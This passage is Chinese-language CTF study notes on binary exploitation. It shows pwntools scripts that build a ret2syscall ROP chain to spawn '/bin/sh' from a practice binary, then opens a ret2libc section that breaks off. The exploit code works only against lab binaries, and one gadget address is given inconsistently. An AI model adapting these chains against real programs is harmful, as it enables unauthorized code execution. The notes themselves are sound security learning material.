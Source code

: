 * 因此可以构造`payload`

  ```python
  payload = 112*b'A' + p32(0x080bb196)                     --- 垃圾数据 + ret[1]
  payload += p32(0xb) + p32(0x0806eb90)                    --- eax值 + ret[2]
  payload += p32(0)+p32(0)+p32(0x080be408)+p32(0x08049412)   --- edx,ecx,ebx值 + ret[int 80h]
  综合
  payload = 112*b'A' + p32(0x080bb196) +p32(0xb) + p32(0x0806eb90)+p32(0)+p32(0)+p32(0x080be408)+p32(0x08049421)
  ```

* 脚本

  ```python
  from pwn import *
  io = process('./ret2syscall')
  # io.recvline()
  # io.recvline()
  payload = 112*b'A' + p32(0x080bb196) +p32(0xb) + p32(0x0806eb90)+p32(0)+p32(0)+p32(0x080be408)+p32(0x08049421)
  io.sendline(payload)
  io.interactive()
  ```

* 或者为了更规整方便的构造`payload`

  > 此时攻击的二进制文件是`rop`

  ```python
  #!/usr/bin/env python
  from pwn import *
  
  sh = process('./rop')
  
  pop_eax_ret = 0x080bb196
  pop_edx_ecx_ebx_ret = 0x0806eb90
  int_0x80 = 0x08049421
  binsh = 0x80be408
  payload = flat(
      ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
  sh.sendline(payload)
  sh.interactive()
  ```



### ret2libc

**有时候`gadget`可能凑不齐**

该例题是静态链接的，所以可以凑齐响应的`payload`，其余的题目都是静态链接的，不容易凑够`payload`！！！

libc是被完整的加载到内存的，而**不是**只加载需要的函数部分！！！

> 控制函数执行`libc`中的函数，通常是返回至某个函数的 `plt` 处或者函数的具体位置 (即函数对应的 `got` 表项的内容)。一般情况下，我们会选择执行 `system("/bin/sh")`，故而此时我们需要知道 `system` 函数的地址。

### 前置知识
